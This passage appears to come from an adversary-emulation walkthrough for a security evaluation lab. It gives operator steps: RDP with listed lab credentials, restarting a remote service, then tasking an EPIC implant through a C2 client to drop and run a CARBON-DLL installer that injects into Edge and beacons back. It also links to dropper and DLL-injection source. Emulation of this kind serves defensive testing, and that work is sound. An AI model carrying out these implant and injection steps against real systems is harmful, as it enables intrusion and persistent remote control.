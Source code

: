 * Wait for the command to return.

:arrow_right: Minimize (do not close) the `hobgoblin` RDP window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```
ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait for the command to return and then :o: sign out of your RDP session to `bannik` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

:arrow_right: Switch back to your Kali terminal and task the SYSTEM level EPIC implant to download the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'name | C:\Windows\System32\WinResSvc.exe | dropper.exe'
```

* Wait for the command to return and then task the EPIC implant to execute the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered with the C2 server

* Wait for the command to return and then task the Carbon implant to execute some discovery commands:
```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

---

### :moyai: Source Code

* [EPIC Dropper](../../Resources/EPIC/SimpleDropper)
  * [File write of EPIC injector as mxs_installer.exe](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L34-L50)
  * [Registry modification](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L95-L143)
* [EPIC injector](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/)
  * Extract EPIC Guard DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L162-L194)
  * Targeting explorer.exe for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L200-L234)
* [EPIC Guard](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/)
  * Extract EPIC payload DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L158-L190)
  * Targeting browser processes for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L232-L280)